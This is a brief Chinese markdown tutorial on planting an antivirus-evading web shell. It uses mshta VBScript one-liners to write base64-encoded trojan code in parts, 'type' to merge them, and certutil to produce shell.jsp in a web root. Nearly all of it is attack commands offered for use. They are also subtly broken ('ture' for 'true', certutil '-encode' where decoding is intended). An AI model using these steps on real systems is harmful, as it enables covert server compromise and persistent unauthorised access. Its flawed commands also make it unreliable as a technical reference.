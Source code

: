 # WWW权限写入Webshell免杀


### 总体思路：使用mshta命令写入base64编码的js代码，以保留木马代码的特殊字符以及格式，分多段写入，然后使用type合并文件，最后使用

### certutil命令生成木马

### 1、使用mshta命令写入base64编码后的木马代码带服务器中

 mshta vbscript:createobject("scripting.filesystemobject").createtextfile("test1.txt",2,ture).writeline("ssss")(window.close)

 mshta vbscript:createobject("scripting.filesystemobject").createtextfile("test2.txt",2,ture).writeline("ssss")(window.close)

### 2、合并文件

type test2.txt >> test1.txt

### 3、合并木马文件

certutil -encode test1.txt c:\\www\\shell.jsp